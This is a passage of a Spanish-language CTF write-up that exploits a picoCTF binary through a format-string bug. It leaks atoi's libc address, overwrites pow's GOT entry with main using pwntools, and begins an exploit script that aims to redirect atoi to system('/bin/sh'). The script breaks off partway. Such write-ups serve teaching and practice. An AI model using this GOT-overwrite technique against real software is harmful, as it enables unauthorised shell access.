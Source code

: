 ```
[...]
atoi() GOT address: 0x601058
[...]
atoi() runtime address: 0x7fb777ef94a0
[...]
```

Con estas funciones podemos calcular la versión de *LibC*, pero lo más importante, calcular la dirección base.

## Sobrescribiendo pow

El problema es que como lo afrontamos ahora mismo, solo tenemos una oportunidad, es decir, podemos obtener las direcciones y calcular la dirección base, pero el programa termina y no podemos utilizar dicha información. Por lo que podemos sobrescribir la función *pow* en la [[GOT]] con la dirección de *main*, para que el programa vuelva al inicio.

Esto podemos hacerlo directamente con [[pwntools]]:

```python
io = start()
loop_main_fmt, loop_main_address = fmtstr_split(fmt_first_offset, {exe.got["pow"]: exe.symbols["main"]}, numbwritten = 23)
send_format(io, loop_main_fmt, loop_main_address)
io.interactive()
```

Con la función *fmtstr_split* automatizamos el proceso, pero debemos pasarle el offset, y la cantidad de caracteres que ya han sido escritos por *printf* antes de llegar al `%n` (`Calculating for A: 1___`).

Con esto ya tenemos la forma de calcular las direcciones y una forma de poder volver a ejecutar para explotarlo.

## Sobrescribiendo atoi

Ya solo falta sobrescribir otra función con *system*, para poder llamar a `system("/bin/sh")`. Utilizaremos *atoi*.

El script sería:

```python
#!/bin/python3

from pwn import *

binary = './chall'
exe = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

def send_payload(io, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    io.sendlineafter("A: ", a)
    io.sendlineafter("B: ", b)

def send_format(io, format, values):
    format_prefix = b'111_'
    values_prefix = b'1111111_'
    send_payload(io, format_prefix + format, values_prefix + values)
    out = io.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
```